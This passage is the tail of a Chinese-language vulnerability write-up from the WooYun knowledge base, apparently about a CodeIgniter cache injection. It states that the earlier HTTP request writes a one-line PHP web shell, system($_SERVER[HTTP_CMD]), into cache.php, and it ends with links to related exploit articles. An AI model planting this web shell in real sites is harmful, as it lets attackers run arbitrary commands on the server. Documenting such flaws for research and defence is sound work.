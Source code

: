 当你发送上述的 http 请求给 CI 时你会看到下述代码出现在 cache.php 文件内

```
<?php system($_SERVER[HTTP_CMD]);?>

```

版权声明：未经授权禁止转载 [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患](http://drops.wooyun.org/tips/3909)
*   [Laravel cookie 伪造,解密,和远程命令执行](http://drops.wooyun.org/papers/1515)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)
*   [CVE-2014-3393 详细分析与复现](http://drops.wooyun.org/papers/3451)
*   [雅虎某分站的 XSS 导致雅虎邮箱沦陷](http://drops.wooyun.org/papers/1024)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)